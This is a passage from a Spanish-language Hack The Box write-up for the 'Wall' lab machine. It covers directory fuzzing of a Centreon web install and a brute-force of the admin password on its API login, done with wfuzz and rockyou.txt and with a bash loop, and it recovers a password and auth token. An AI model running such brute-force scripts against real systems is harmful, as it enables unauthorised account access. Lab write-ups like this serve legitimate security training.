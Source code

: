 ```console
└─$ curl -s http://10.10.10.157/centreon/ | grep "input"
...
<input name="centreon_token" type="hidden" value="6c62e24f39bd058befeb7056f5607328" /> # cambia siempre.
```
```console
└─$ wfuzz -c --hc=404 -t 100 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.157/centreon/FUZZ/
# Un montón de rutas
```
- /api -> 401 unauthorized.
	* /api/interface -> un php  
	* /api/class -> muchos phps  
- /img -> tiene directory listing, pero solo muestra fotos.  
- /themes -> lo mismo, nada interesante, al giual con /widgets, /sounds /modules, /static, /locale  
- /lib -> existe *wz_tooltip.js	 v. 5.20*  
- /include, /class-> un monton de phps  

Si buscas en google centreon api te sale como busqeda sugerida "login", lo que te da la documentacion [oficial](https://docs.centreon.com/docs/api/rest-api-v1/)

```console
└─$ curl -s -X POST http://10.10.10.157/centreon/api/index.php?action=authenticate -d "{'username': 'test', 'password': 'test'}"
# Bad parameters
└─$ curl -s -X POST http://10.10.10.157/centreon/api/index.php?action=authenticate -d "username=test&password=test"
"Bad credentials"

# Con wfuzz hay una manera para fuzzear parametros
└─$ wfuzz -c --hc 403 -X POST -t 100 -w /usr/share/wordlists/rockyou.txt -d 'username=admin&password=FUZZ' "http://10.10.10.157/centreon/api/index.php?action=authenticate"
000000028:   200        0 L      1 W        62 Ch       "password1"
```
Si no disponemos de curl, bash tiene también sus herramientas (y tambien python)

```bash
for i in $(cat /usr/share/wordlists/rockyou.txt); do
    echo -n "$i: "
    curl -s -X POST http://10.10.10.157/centreon/api/index.php?action=authenticate -d "username=admin&password=$i"
    echo
done
```
```console
└─$ bash creds.sh | tee output 
└─$ cat output | grep -v "Bad"
password1: {"authToken":"5fQ3VjxYW4yd\/Dcs5rA4rGddwn\/OTYnldovNzzYiWzY="}
```
![](/assets/images/htb-wall/wall3.PNG)
